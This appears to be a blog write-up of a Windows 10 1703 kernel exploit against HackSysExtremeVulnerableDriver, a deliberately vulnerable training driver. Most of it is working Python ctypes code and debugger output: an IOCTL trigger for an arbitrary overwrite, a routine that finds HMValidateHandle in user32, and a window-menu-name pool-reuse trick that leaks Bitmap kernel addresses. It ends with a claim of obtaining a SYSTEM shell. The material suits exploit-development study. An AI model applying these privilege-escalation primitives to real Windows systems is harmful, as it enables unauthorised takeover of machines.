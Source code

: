 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver BitmapNecromancy
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 10 1703 jul x64  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000001080E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```
Well, the trigger work fine.

In Win10 1703, Microsoft nulled the pKernelAddress in the GDI_CELL struct killing the old infoleak, review the last challenge,
it is the key point for our address to get pvscan0 Addr.
```
class GDICELL64(Structure):
    _fields_ = [("pKernelAddress", c_void_p),
                ("wProcessId", c_ushort), 
                ("wCount", c_ushort),
                ("wUpper", c_ushort),
                ("wType", c_ushort),
                ("pUserAddress", c_void_p)]
```


## 0x002 Exploit it

Luckily, there is another method to exploit Win10 1703. First, we should get the HMValidateHandle Addr, this is necssaary. Don't be afraid, it is painless.

HmValidateHandle is a very interesting function as we can provide it with a handle to a Window object and it will return the pointer to the user mapped tagWND object on the Desktop Heap, isn't that useful!

We may get the Addr of user32.IsMenu method, then, try to find out . 
```
kd> u user32!IsMenu
USER32!IsMenu:
00007fff`17d489e0 4883ec28        sub     rsp,28h
00007fff`17d489e4 b202            mov     dl,2
00007fff`17d489e6 e805380000      call    USER32!HMValidateHandle (00007fff`17d4c1f0)
00007fff`17d489eb 33c9            xor     ecx,ecx
00007fff`17d489ed 4885c0          test    rax,rax
00007fff`17d489f0 0f95c1          setne   cl
00007fff`17d489f3 8bc1            mov     eax,ecx
00007fff`17d489f5 4883c428        add     rsp,28h
```
Pay attention, after first 0xe8 byte opcode may be the Pointer to HMValidateHandle offset.

Try to compare with 0xe8 for every bytes after the user32.IsMenu method.
```
def findHMValidateHandle():
	global pHMValidateHandle

	kernel32.LoadLibraryA.restype = HMODULE
	hUser32 = kernel32.LoadLibraryA("user32.dll")

	kernel32.GetProcAddress.restype = c_ulonglong
	kernel32.GetProcAddress.argtypes = (HMODULE,LPCSTR)
	pIsMenu = kernel32.GetProcAddress(hUser32,"IsMenu")
	debug_print("[>] Locating HMValidateHandle()")
	debug_print("\t[+] user32.IsMenu: 0x%X" % pIsMenu)

	offset = 0
	pHMValidateHandle_offset = 0
	while(offset < 0x100):
		byte = cast(pIsMenu + offset, POINTER(c_byte))
		# if byte == 0xE8(232 - 128 - 128 = -24)
		if byte.contents.value == -24:
			pHMValidateHandle_offset = pIsMenu + offset + 1
			break;
		offset = offset + 1
	debug_print("\t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)
	
	HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
	debug_print("\t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

	# Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
	pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb
	debug_print("\t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)
```

Next step, allocate a large Window menu name, free it and then allocate our Bitmap which will reuse the free'd memory, because the Window menu name (lpszMenuName) is allocated in the same Kernel pool as our bitmap. if we make the menu name larger than 4kb it ends up in the large pool which has low'ish entropy making this UAF style leak 100% reliable.

How to ensure that our predictions are completely correct？

Well, we may try to compare the lpszMenuName of reuse block with the previous freed block. Therefore, the kernelAddr of Bitmap objects is fully predictable.
```
def alloc_free_windows():
	global classNumber

	previous_entry = 0

	while (1):
		plpszMenuName = allocate_free_window()
		if previous_entry == plpszMenuName:
			return plpszMenuName
		previous_entry = plpszMenuName
		classNumber = classNumber + 1
```

Now, we only need to do the same jobs of last challenge, then, I successfully got a system cmd.
![](/assets/img/exploit/2018-08-10-hacksys-extreme-vulnerable-driver-bitmapnecromancy/0x001.png)